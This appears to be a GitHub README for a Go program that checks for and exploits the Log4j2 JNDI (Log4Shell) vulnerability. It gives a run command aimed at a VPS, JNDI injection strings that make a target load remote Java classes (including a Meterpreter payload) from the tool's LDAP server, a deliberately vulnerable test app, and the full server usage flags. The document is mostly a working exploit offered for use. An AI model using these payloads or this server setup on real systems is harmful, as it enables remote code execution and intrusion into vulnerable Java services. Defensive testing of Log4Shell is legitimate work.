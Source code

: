 # log4j2-exp
 * Check and exploit log4j2 vulnerability with single Go program. 
 * You don't need to install anything except develop it.
 * It supports ldaps and https server for other usage.

## Run
   ```log4j2-exp.exe -host "VPS IP address"```
  

## Check
 * run the log4j2-exp server
 * send ```${jndi:ldap://127.0.0.1/nop.class}```

## Exploit
 * run the log4j2-exp server
 * put your class file to the payload directory
 * send ```${jndi:ldap://127.0.0.1/meterpreter.class}```
 * will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.
 * You can use it for develop this project easily.
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1/calc.class}```

## Help
  ```
  :::        ::::::::   ::::::::      :::   ::::::::::: ::::::::
  :+:       :+:    :+: :+:    :+:    :+:        :+:    :+:    :+:
  +:+       +:+    +:+ +:+          +:+ +:+     +:+          +:+
  +#+       +#+    +:+ :#:         +#+  +:+     +#+        +#+
  +#+       +#+    +#+ +#+   +#+# +#+#+#+#+#+   +#+      +#+
  #+#       #+#    #+# #+#    #+#       #+# #+# #+#     #+#
  ########## ########   ########        ###  #####     ##########

                           https://github.com/For-ACGN/log4j2-exp

Usage of log4j2-exp.exe:
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":389")
  -ldap-net string
        ldap server network (default "tcp")
  -payload string
        payload(java class) directory (default "payload")
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  -tls-server
        enable ldaps and https server
  ```

## Screenshot
![](https://github.com/For-ACGN/log4j2-exp/raw/main/screenshot.png)
